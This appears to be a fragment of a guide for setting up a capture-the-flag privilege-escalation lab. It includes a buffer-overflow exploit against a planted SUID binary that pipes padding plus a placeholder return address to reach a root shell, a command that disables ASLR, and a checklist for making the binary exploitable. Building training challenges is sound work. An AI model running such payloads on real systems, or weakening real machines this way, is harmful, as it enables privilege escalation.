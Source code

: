 1. **Find the address of `give_shell`:**
    
    ```bash
    objdump -d /opt/challenge/vuln | grep give_shell
    
    ```
    
2. **Calculate the offset to return address:**
    
    Use `gdb` or pattern tools. For this binary, it's typically `72–76` bytes.
    
    Example with `gdb`:
    
    ```
    gdb /opt/challenge/vuln
    (gdb) disas handle_input
    (gdb) run
    
    ```
    
3. **Exploit Payload:**
    
    ```bash
    python3 -c "print('A'*76 + '\\xNN\\xNN\\xNN\\xNN')" | /opt/challenge/vuln
    
    ```
    
    Replace `\\xNN...` with the little-endian address of `give_shell()`.
    
4. **Boom! Root shell.**

---

### 🧼 **Extra Tips for Realism or Hardening:**

- **Disable ASLR** (temporarily for consistent behavior):
    
    ```bash
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    
    ```
    
- **Use `readelf -s vuln`** to find symbols if `objdump` doesn’t help.
- **Use `gdb-peda`** or `pwndbg` to assist exploitation (optional but helpful).
- Place binary in `~/opt/` to simulate a more realistic environment.
- Add hints like `README.txt` or hidden `.notes` to guide players subtly.

---

### 🏁 Final Test: Checklist

| Checkpoint | Status |
| --- | --- |
| SUID binary is correctly set | ✅ |
| Buffer overflow exists | ✅ |
| ASLR is disabled (optional) | ✅ |
| `give_shell()` is present and reachable | ✅ |
| Flag is root-readable only | ✅ |
| User `samuel` can run the binary | ✅ |
| Binary is non-PIE and exploitable | ✅ |

---